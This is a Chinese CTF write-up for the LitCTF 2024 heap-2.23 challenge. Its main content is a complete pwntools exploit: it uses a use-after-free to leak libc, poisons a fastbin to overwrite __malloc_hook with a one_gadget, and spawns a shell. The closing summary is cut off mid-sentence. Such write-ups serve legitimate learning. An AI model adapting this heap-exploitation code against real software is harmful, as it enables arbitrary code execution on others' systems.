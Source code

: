 # [LitCTF 2024]heap-2.23

刚开始先检查保护

![image-20250223133717351](./../images/image-20250223133717351.png)

发现只有一个canary和一个nx保护

所以先用ida反编译一下

![image-20250223133912374](./../images/image-20250223133912374.png)

![image-20250223133948964](./../images/image-20250223133948964.png)

发现有着一个uaf漏洞，并且发现这里是用2.23的版本

![image-20250223134038816](./../images/image-20250223134038816.png)

因此我们的思路是使用uaf泄露libc并且发现有一个libc的原件因此我们可以使用one_gadget同时我们也要泄露mallo_hook因此我们的exp：

```py
from pwn import *
# from LibcSearcher import *
import itertools
import ctypes

context(os='linux', arch='amd64', log_level='debug')

is_debug = 0
IP = "node4.anna.nssctf.cn"
PORT = 28268

elf = context.binary = ELF('/home/fofa/heap-2.23/heap')
libc = elf.libc

# def connect():
#     return remote(IP, PORT) if not is_debug else process()

g = lambda x: gdb.attach(x)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x=None: p.recv() if x is None else p.recv(x)
rl = lambda: p.recvline()
ru = lambda x: p.recvuntil(x)
r_leak_libc_64 = lambda: u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
r_leak_libc_32 = lambda: u32(p.recvuntil(b'\xf7')[-4:])

p = process("/home/fofa/heap-2.23/heap")


def add(idx,size):
    sla(">>",str(1))
    sla("idx?",str(idx))
    sla("size?",str(size))



def show(idx):
    sla(">>",str(3))
    sla("idx?",str(idx))


def delete(idx):
    sla(">>",str(2))
    sla("idx?",str(idx))


def edit(idx,content):
    sla(">>",str(4))
    sla("idx?",str(idx))
    sa("content :",content)


add(0,0x98)
add(1,0x98)
delete(0)
show(0)

ru("content : ")
leak = u64(r(6).ljust(8,b'\x00'))
libc_base = leak - (0x74afcefc4b78 - 0x74afcec00000)
success(f"libc_base ->{hex(libc_base)}")

# 0x45226 execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   rax == NULL

# 0x4527a execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   [rsp+0x30] == NULL

# 0xf03a4 execve("/bin/sh", rsp+0x50, environ)
# constraints:
#   [rsp+0x50] == NULL

# 0xf1247 execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL

malloc_hook = libc_base + libc.sym['__malloc_hook']
one_gadget = libc_base + 0xf1247

add(2,0x68)
add(3,0x68)
add(4,0x68)

# pause()
delete(2)
delete(3)
#修改2块中的fd指针
edit(2,p64(malloc_hook - 0x23))


add(5,0x68)
add(6,0x68)
add(7,0x68)#申请出fd指向的malloc_hook


# success(hex(malloc_hook))
# success(hex(malloc_hook - 0x23))
# success(hex(one_gadget))
gdb.attach(p)
edit(7,b"a" * 0x13 + p64(one_gadget))

add(9,0x20)


# g(p)



p.interactive()
```

---

总结

malloc_hook要
